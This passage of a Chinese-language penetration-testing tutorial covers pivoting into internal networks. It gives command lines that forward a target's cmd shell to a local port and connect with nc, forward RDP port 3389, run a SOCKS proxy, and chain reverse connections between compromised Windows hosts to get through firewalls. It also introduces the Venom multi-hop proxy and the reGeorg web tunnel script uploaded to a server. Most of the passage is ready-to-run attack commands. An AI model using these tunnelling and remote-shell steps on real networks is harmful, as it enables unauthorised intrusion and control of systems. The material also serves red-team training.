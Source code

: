 ```
`#调用shell，将目标机器cmd shell转发到本地12345端口``shell 12345` `#nc连接,得到cmdshell``nc 127.0.0.1 12345`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

命令三：端口转发

```
`#端口转发。将目标3389转发到本地1189，然后mstsc连接127.0.0.1:1189。注意多级转发会造成流量拥堵，流量可能出不来``lcxtran 1189 192.168.1.10 3389``#socket代理``#配合proxychains驱动本地软件对内网进行扫描，由本地1080将流量转发到内网``socks 1080`
```

* * *

###   

### **3.3 反向连接**

`#win7保持监听``agent_Win32.exe -l 7777``#xp反向连接到win7``agent_Win32.exe -c 169.254.75.233 -p 7777``#win8保持监听``agent_Win32.exe -l 6666``#win7反向连接08``agent_Win32.exe -c 192.168.106.128 -p 6666``#此时xp、win7都已经主动上交了权限，物理机控制08就可以直接建立隧道``admin_Win32.exe -c 192.168.1.10 -p 6666``#反向连接用户穿透防火墙`

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

---

**4.venom工具**  

----------------

使用Go开发的多级代理工具。Venom可将多个节点进行连接，然后以节点为跳板，构建多级代理。可以使用Venom轻松地将网络流量代理到多层内网，并轻松地管理代理节点。venom工具使用方法传送门：[使用Venom多级代理工具穿透内网](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484080&idx=1&sn=dfa1fb4c8de49768d687c873b162bde8&chksm=a687e27f91f06b699609cf8c9a52999977cc82a2f4986a034948a1b4fe710f237df3ba32e433&scene=21#wechat_redirect)

* * *

  

**5.reGeorg+Proxychains**

项目地址：https://github.com/sensepost/reGeorg

###   

### **5.1 上传脚本**

上传脚本文件到服务器，访问地址出现“Georg says, ‘All seems fine’”表示脚本正常运行。本地测试php脚本不能正常运行  
  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### **5.2 进行转发**

```
python2 reGeorgSocksProxy.py -p 12345 -u http://192.168.1.10:8001/tunnel.aspx
```
